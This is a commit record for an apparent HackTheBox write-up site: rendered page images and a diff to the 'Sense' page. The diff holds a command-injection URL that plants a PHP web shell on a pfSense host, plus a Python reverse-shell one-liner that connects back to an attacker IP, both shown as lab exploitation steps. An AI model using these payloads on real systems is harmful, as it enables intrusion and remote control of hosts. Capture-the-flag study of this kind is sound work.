

Before and after one commit to zhsh9/HackTheBox-Writeup, a Sphinx documentation site: the page built from source/linux/Sense.md, in a window 1280 px wide and 900 px high, scrolled down 2445 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
[+] update oscp like, Sense

```diff
--- a/source/linux/Sense.md
+++ b/source/linux/Sense.md
@@ -88,7 +88,7 @@ exploit methodology:
 
 ![image-20231215232110169](./Sense.assets/image-20231215232110169.png)
 
-- RCE POC: `[https://10.10.10.60/status_rrd_graph_img.php?database=queues;cd%20..;cd%20..;cd%20..;cd%20..;cd%20usr;cd%20local;%20cd%20www;echo%20%27%3C?php%20system($_GET[%22cmd%22\]);?%3E%27%3Ea.php](https://10.10.10.60/status_rrd_graph_img.php?database=queues;cd ..;cd ..;cd ..;cd ..;cd usr;cd local; cd www;echo ''>a.php)`
+- RCE POC: `https://10.10.10.60/status_rrd_graph_img.php?database=queues;cd%20..;cd%20..;cd%20..;cd%20..;cd%20usr;cd%20local;%20cd%20www;echo%20%27%3C?php%20system($_GET[%22cmd%22\]);?%3E%27%3Ea.php`
 - rshell payload:
   - `python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.39",1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
   - URL: `https://10.10.10.60/a.php?cmd=python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.39",1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
```
